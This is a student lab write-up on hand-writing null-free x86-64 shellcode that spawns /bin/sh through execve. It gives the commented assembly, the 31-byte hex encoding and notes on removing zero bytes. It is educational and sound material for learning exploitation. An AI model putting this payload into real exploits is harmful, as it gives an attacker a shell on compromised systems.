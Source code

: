 # Shell code

The goal of this lab was to learn how to write x86-64 bit program in assembly that can be loaded by a C program.

This shellcode will execute /bin/sh using exceve.
 
We also learned about gdb through using it to help debug our assembly program by seeing the content of the registers, the codes, the memory, and see the flow of the program. 

## Program
```
// Shellcode lab
// Author: Long Tran
.globl _start
.section .text
_start:
    // zero out rax
    xor %rax, %rax
    // push to have array of zeroes on the stack
    pushq %rax
    // %rsi and %rdx - set these to the address leading to an empty array of no pointers.
    // we don't need a pointer to an empty string
    movq %rsp, %rsi
    movq %rsp, %rdx
    
    // %rdi - path
    // "/bin/sh 0x2F62696E2F7368
    // needs to change to little endianess
    movq $0x68732F6E69622F3b, %rbx 
    // retrieve 0x3b, put it in lower 8-bit of rax
    mov %bl, %al

    // push the string
    pushq %rbx
    // copy the stack pointer
    movq %rsp, %rdi
    // increase it by one to get past 0x3b
    inc %rdi

    syscall
```
### Explanation

To set up for the system call, we basically need the following:

1. Put 0x3b into %rax
2. Push 8 bytes of 0x0 onto the stack. 
3. Store the address of the memory of the pushed 0 in %rsi (argv) and %rdx (env). This will lead to an empty array of pointers. 
4. Push the string "/bin/sh" onto the stack.
5. Store the address of the string in %rdi. 
6. Call the system call with `syscall`

However, to remove the zero byte and reduce the size. I made some changes. A detailed instruction can be seen through the comments of the assembly code. 

### Report

My shell code is 31 bytes long. Here they are:

    48 31 c0 50 48 89 e6 48 89 e2 48 bb 3b 2f 62 69 6e 2f 73 68 88 d8 53 48 89 e7 48 ff c7 f 5

### Explanation for NULL bytes        

As can be seen from the hexdump, there is no 0 bytes in the code.
I made sure that there are no NULL bytes by adding a check in the shellcode_tester.c and check if there is a 0 byte read. If there is a 0 byte read, then the program exits.

I realized by adding and removing instructions that the zero bytes only come from the intermediate numbers (e.g: $0x3b) to fill up the 8 bytes.

Thus, to eliminate NULL bytes, I did 2 things: 
1. I xor 2 registers to get a value 0 without having to write $0x0. 
2. I combined both the string "/bin/sh" and the code system call code 0x3b into one number. To get the code, I only simply need to get the lower 8 byte from the register. I then pushed the entire number and to get the address of the string "/bin/sh" only, I incremented the stack pointer by one to get pass 0x3b. 
